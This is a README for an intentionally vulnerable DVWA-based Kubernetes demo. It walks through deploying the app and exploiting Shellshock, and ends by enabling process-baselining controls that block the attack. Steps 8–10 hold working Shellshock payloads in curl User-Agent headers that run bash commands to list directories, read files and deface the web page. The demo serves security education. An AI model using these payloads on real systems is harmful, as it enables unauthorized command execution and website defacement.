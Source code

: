 # Insecure Deployment Demo
This repo is intended to host insecure deployments for educational and demo purposes. These should never be run in privileged mode and should avoid use on public networks.

This deployment is based off of public projects such as the Damn Vulerable Web Application and is intended to be used to demo the shellshock exploit in a Kubernetes environment.

# What is shellshock

# Demo Script

### Pre-requisite steps

1. Clone the repository


2. Deploy dvwa.yaml

For OpenShift:
`oc apply -f dvwa.yaml`


For Kubernetes:
`kubectl apply -f dvwa.yaml`

3. Port Forward to the application

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode.*

4. Apply the yaml file

`kubectl apply -f dvwa.yaml`

5. Get the pods and copy the pod name for a targeted pod.

`oc get pods -n vulerable -w`

6. Export the pod name for ease of use

`export POD=<insert_pod_name>`

7. Port forward to the pod.
`oc port-forward $POD 8080:80 -n vulerable`

8. Check out the server

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /var/'" \
http://localhost:8080/cgi-bin/vulnerable`

9. Check out the index file for apache

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8080/cgi-bin/vulnerable`

10. Time to mess with people

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1>I like cats - also you should protect your stuff</h1><body><img src=https://miro.medium.com/max/1200/1*7_m4dF9OqBjePqqRyJ1O-g.jpeg></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable

11. Turn on security controls for proccess baselining

Observe how me messing with people is blocked.
